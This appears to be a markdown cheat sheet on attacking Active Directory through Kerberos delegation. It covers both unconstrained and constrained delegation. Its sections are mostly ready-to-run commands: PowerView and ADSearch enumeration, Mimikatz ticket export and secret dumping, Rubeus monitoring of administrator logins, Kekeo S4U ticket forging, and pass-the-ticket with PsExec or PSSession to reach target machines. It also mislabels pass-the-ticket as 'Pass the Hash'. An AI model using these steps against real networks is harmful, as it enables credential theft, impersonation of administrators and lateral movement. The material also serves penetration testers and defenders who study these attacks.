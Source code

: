The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting.

**types:**

**First: Unconstrained Kerberos Delegation**<br>

When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.
```
# List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
# Export tickets with Mimikatz
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Check every 10s for new TGTs
```
Then use **Pass the Hash attack** using ```Mimikatz``` to inject it into current our session :
```
mimikatz # kerberos::ptt <TheTicketPass>
mimikatz # exit
Bye!
.\PsExec.exe -accepteula \\machine.domain.local cmd
```

**Second: Constrained Kerberos Delegation** 

Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. Once the client logged in to the delegated service 1, the service 1 ask the KDC to provide S4U2self (simillar to TGT) and S4U2proxy (simillar to TGS) using the TGT of the client. An example of this would be if we were able to compromise an AD account that had constrained delegation configured. By knowing the plaintext password or even just the NTLM hash of this account, we could generate a TGT for this account, then use the TGT to execute a ```S4U``` request for any non-sensitive user account in order to access the service as that user.
 
The following are examples of services that can be configured for delegation:
```
HTTP - Used for web applications to allow pass-through authentication using AD credentials.
WSMAN - It's utilized by PowerShell's remoting feature, allowing administrators to execute commands and scripts on remote computers.
CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
HOST - Allows delegation of account for all activities on the host.
MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
```
**Constrained Delegation Exploitation**
The first thing we need to do is enumerate available delegations usint ```PowerView``` tool.
```
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```
After this recon we should to dump the clear text passwords from registry hive file hopping to find the delegated account password. <br>
We could do this using ```Mimikatz``` tools:
```
# token::elevate    -> is used to impersonate a token with higher privileges
# lsadump::secrets    -> dump clear text passwords
```
Now it's time to use ```Kekeo``` tool to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:
```
# tgt::ask /user:<DelegatedAccountUserName> /domain:<DomainName> /password:<DelegatedAccountPassword>
```
This command used to make a TGT associated to the delegated account to make sure this account authenticated in the AD environment.<br>
Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate.
```
# tgs::s4u /tgt:<TheTGTOfTheDelegatedUser> /user:<TheAdministrativeAccountWeWantToImpersonate> /service:<ServiceName>/Machine.Domain.local
```

TheAdministrativeAccountWeWantToImpersonate ->  might be retrived from the enumeration. If we couldn't that we will use the "administrator" if it's enabled.
**Finally:** we use **mimikatz** to pass the ticket and inject it into our current session.
we should make new window of mimikatz to do that.
```
# privilege::debug
# kerberos::ptt <TGTfile> 
```
Now that the tickets are imported, we can finally create our PSSession on the target machine that the delegated account has delegation on.

```
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName <TargetMachine.DomainName.local>
PS C:\> Enter-PSSession -ComputerName <TargetMachine.DomainName.local>
```












